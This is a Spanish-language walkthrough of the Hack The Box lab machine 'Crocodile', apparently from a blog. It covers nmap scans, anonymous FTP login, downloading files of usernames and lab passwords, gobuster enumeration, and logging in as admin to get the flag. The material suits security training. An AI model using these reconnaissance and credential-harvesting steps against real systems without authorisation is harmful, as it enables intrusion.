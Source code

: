 ```yaml
---
title: Crocodile HTB walkthrough
published: true
---
```


# Crocodile HTB walkthrough

## Fase de reconocimiento

Comenzamos buscando puertos abiertos:

```
$sudo nmap -p- --open -sS -min-rate 5000 -n -Pn <ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-30 23:07 CET

Nmap scan report for <ip>
Host is up (0.21s latency).
Not shown: 57623 closed ports, 7910 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

Vemos que tenemos abiertos los puertos 21 y 80, así que continuamos buscando las versiones e información detallada:

```
$nmap -p21,80 -sCV <ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-30 23:14 CET
Nmap scan report for 10.129.69.30
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.16 seconds
```

Vemos en primer lugar que se permite un inicio de sesion anónimo mediante ftp (puerto 21). En cuanto al otro servicio, http, sabemos que se trata de una aplicación web que hace uso de bootstrap.

## Tratamos de conectarnos via FTP

Como permite el inicio de sesion anónimo, podemos intentar conectarnos:

```
$ftp <ip>
Connected to 10.129.69.30.
220 (vsFTPd 3.0.3)
Name (10.129.69.30:naibu3): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Conseguimos de esta forma entrar en el servidor.

## Buscando dentro del servidor

Con `help` podemos listar los comandos disponibles. Con `dir` listaremos información del directorio actual y con `get` podremos descargarnos archivos.

```
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp>
```

Vemos dos archivos sospechosos, así que los descargamos en nuestra máquina para buscar credenciales de usuario.

```
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0.00 secs (284.2576 kB/s)

ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (295.6565 kB/s)

ftp> bye
221 Goodbye.
```

Listamos ahora el contenido de los archivos:

```
$cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

$cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Tenemos posibles credenciales de varios usuarios entre los que se encuentra el usuario administrador. Sin embargo, no sirven en el servicio ftp, ya que nos dice que es anonymous-only.

## Buscando en la aplicación web

Después de navegarla descubrimos que no nos lleva a ningún sitio. Con wappalizer tan sólo vemos información como que está programada en php. Así que trataremos de buscar posibles rutas con gobuster:

```
sudo gobuster -m dir -u http://10.129.69.30 -x php,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Tras esperar unos minutos, vemos que se lista una ruta /login.php en la que podremos probar las credenciales. Resultando en que las credenciales funcionan para el usuario admin y ta tenemos la flag. Enhorabuena!